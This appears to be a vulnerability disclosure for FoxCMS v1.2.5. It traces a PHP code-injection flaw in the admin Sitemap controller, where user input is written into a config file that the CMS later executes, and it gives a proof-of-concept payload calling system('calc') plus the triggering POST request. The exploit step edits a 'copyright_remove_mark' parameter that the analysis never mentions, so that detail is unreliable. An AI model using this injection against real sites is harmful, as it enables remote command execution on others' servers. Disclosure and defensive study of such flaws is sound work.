

## Command Execution in `sitemap.php`

The latest version of FoxCMS, v1.2.5, has a code concatenation vulnerability in `app\admin\controller\Sitemap.php`, allowing attackers to execute arbitrary commands.

### Debugging and Analysis

The vulnerability exists in the `index()` method of the controller file `app\admin\controller\Sitemap.php`:
```php
class Sitemap extends AdminBase
{

    public function index(){

        $sitemap = xn_cfg("sitemap");
        if($this->request->isAjax()){
            $param = $this->request->param();
            if(key_exists("filter", $param)){
                $sitemap['filter'] = $param['filter'];
            }
            if(key_exists("sitemap_type", $param)){
                $sitemap['sitemap_type'] = $param['sitemap_type'];
            }
            if(key_exists("frequency", $param)){
                $sitemap['frequency'] = $param['frequency'];
            }
            if(key_exists("level", $param)){
                $sitemap['level'] = $param['level'];
            }
            set_php_arr(config_path('cfg'),  'sitemap.php', $sitemap);
            $this->success("Operation successful");
        }
    }
```

This function calls `set_php_arr`, which concatenates and writes the variable value into a PHP file:
```php
function set_php_arr($phpPath, $filename, $saveData)
{
    // Create directory
    if (!tp_mkdir($phpPath)) {
        return "Failed to create directory";
    }

    $phpfile = $phpPath . $filename;
    $str = "<?php\r\nreturn [\r\n";
    foreach ($saveData as $key => $val) {
        $str .= "\t'$key' => '$val',";
        $str .= "\r\n";
    }
    $str .= '];';
    file_put_contents($phpfile, $str);
}
```

The values in the `saveData` array are user-controlled, allowing for code injection by concatenating PHP code into the file:

```r
config\cfg\sitemap.php
```

Attackers can exploit this vulnerability to inject code and execute commands.

Next, the controller's `handUpdate` method is examined:
```php
public function handUpdate(){
    $type = $this->request->param("type", "");
    if(empty($type)){
        $this->error("Missing update parameter");
    }
    $sitemapTypes = ['xml','txt','html'];
    if(!in_array($type, $sitemapTypes)){
        $this->error("Invalid sitemap update parameter");
    }
    (new SitemapUtil())->generateSitemap($type, $this->domain, $this->getMyLang());
    $this->success("Update successful");
}
```

This method calls `generateSitemap`, which in turn calls `xn_cfg("sitemap")`:
```php
public function generateSitemap($type, $domain, $lang=""){

    $sitemap = xn_cfg("sitemap");
    ......
}
```

The `xn_cfg("sitemap")` function calls the `Config` class's `load` method to load the configuration file:
```php
function xn_cfg($name, $default = '', $path = 'cfg')
{
    if (false === strpos($name, '.')) {
        $name = strtolower($name);
        $config  = \think\facade\Config::load($path . '/' . $name, $name);
        return $config ?? [];
    }
    $name_arr    = explode('.', $name);
    $name_arr[0] = strtolower($name_arr[0]);
    $filename = $name_arr[0];
    $config  = \think\facade\Config::load($path . '/' . $filename, $filename);
    return $config[$name_arr[1]] ?? $default;
}
```

The `load` method then calls the `parse` method, which ultimately includes the file `\config\cfg\sitemap.php`, executing the injected code.




The `parse` method ends up including the file and executing the injected code.


### Exploiting the Vulnerability

To exploit this, go to the site settings page and click "Save," then capture the request.


Modify the `copyright_remove_mark` parameter to the following payload:
```r
0','test'=>system('calc'),'a'=>'a
```


Make a POST request to trigger the command execution via `handUpdate`:
```http
POST /index.php/admin1735/Sitemap/handUpdate

type=xml
```

The command is executed successfully, and the calculator app pops up.


